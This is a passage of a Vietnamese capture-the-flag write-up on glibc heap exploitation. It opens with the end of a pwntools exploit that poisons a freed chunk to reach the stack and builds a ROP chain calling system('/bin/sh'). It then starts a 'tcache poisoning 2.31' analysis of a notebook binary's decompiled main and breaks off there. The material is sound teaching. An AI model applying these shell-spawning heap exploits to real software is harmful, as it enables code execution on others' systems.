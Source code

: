 ```
erase()
write(b'c'*0x20)
erase()
write(p64(bss))
buy(0x20, b'a'*0x20)
buy(0x20, p64(0) + p64(stack_leak))

pl = p64(pop_rdi + 1) + p64(pop_rdi) + p64(next(libc.search(b'/bin/sh'))) + p64(libc.sym['system'])
# GDB()
write(pl)
p.interactive()
```

# tcache poisoning 2.31

## Phân tích
```
int __fastcall main(int argc, const char **argv, const char **envp)
{
  int v4; // [rsp+0h] [rbp-10h] BYREF
  unsigned int v5; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v6; // [rsp+8h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  init(argc, argv, envp);
  puts("Notebook v1.0 - Beta version");
  puts("A place where you can save your note!\n");
  while ( 1 )
  {
    menu();
    __isoc99_scanf("%d", &v4);
    printf("Index: ");
    __isoc99_scanf("%d", &v5);
    switch ( v4 )
    {
      case 1:
        add_note(v5);
        break;
      case 2:
        edit_note(v5);
        break;
      case 3:
        remove_note(v5);
        break;
      case 4:
        read_note(v5);
        break;
      case 5:
        exit(0);
      default:
        puts("Invalid choice!");
        break;
    }
  }
}
```
- Trong main cho ta chọn index
    1. add_note
    ![image](https://hackmd.io/_uploads/BkgM4f001x.png)
    - Trong đây nhập size, rồi malloc theo size, sau đó nhập dữ liệu vào vùng malloc qua hàm read
    2. edit_note